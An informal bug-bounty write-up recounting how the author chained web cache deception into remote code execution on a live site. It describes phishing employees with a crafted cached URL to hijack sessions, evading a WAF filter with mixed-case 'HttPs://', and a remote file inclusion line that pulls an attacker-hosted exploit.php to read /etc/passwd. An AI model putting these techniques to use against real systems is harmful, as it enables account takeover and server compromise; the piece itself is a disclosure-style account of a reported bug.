 hello folks ! here is my article of how i was able to exploit web cache deception to obtain rce :3 i was doing resarch on web cache deception and i decide to penetst it on real web
then i found a website which was vulnerable to web cache deception attack ..before starting attack let's clear doubt about web cache deception

**concept of web cache deception**

website uses cdn's for storing local cached copy of webpage like pdf,css.etc. so that when user revisits to that website the website will work faster and also for reducing loads
suppose two user bob and alice have two accounts on a website which is vulnerable to web cache deception alice is a hacker and bob is a victim..allice(attacker) 
send a link to victim bob like this : 
https://www.example.com/user/account/l.css
now what happened if bob opens this link his cache copy will stored to server and alice can easily takeover account of bob by retriving cache from server thats the simple mechanism of
web cache deception now lets move towards attack :)

**attack scenario**

i founded a web which was vulnerable to web cache deception but nothing was in that web application i founded a subdomain of same web application where only employee can access their
account that subdomain was made for employees i can't login to that subdomain.. i captured the login request of that subdomain i saw there was no header of pragma cache to avoid web 
cache deception attack ...i quicly extracted email of workers of that web applict ation thanx to <a href="https://www.phonebook..cz">phonebook</a> and after recon of 4 hours i was able 
to determine blueprint of employee panel in my mind when an employee login to that account he got redirectited to index.php i made a url something like this: https://www.example.com/
index.php/app0ly.css ans sends to that gmail and tricked them to open the link after few hours i open my linked and i saw that some one open the links ^__^ so i takeover someone account
but there was the problem i can only see the content of index.php when i go to setiings or any other option web application throws awy me from session *_*..

**escilating to rce** 

after spending few hours with capturing and sending request i saw there was a hidden java file in source code of index.php thanx to: <a href="https://www.waybackmachine.com">wayback</a>
after reaading the java file i got few parameters but most intresting waas parameter "?url=" and file?=...whic was something like "https://www.expample.php?url=" i tried to do ssrf but failed seems like htttp and https:// protocol was 
banned by WAF i tried various combinations like htTps:// , HTTPs:// etc. luckily, HttPs:// workred in my case and i got open redirection then i tried to test for remote file inculsion 
i created a payload for retriving "/etc/passwd" file i hosted that paylaod on my website and tried to fetch that mine v=webiste to vulnerable website like this:

www.example.com/index.php?file=HTtps://www.mywebsite.com/exploit.php

and voila! i was able to reterive /etc/passwd file and also able to obtain rce :( and pawned that web application i sent a report to them they patched the bug ^__^ 
that was about how i escilate the web cache to rce ! 

any privte programs :
send it to : <a href="mailto:nhibtaungamain@gmail.com">mohit</a>

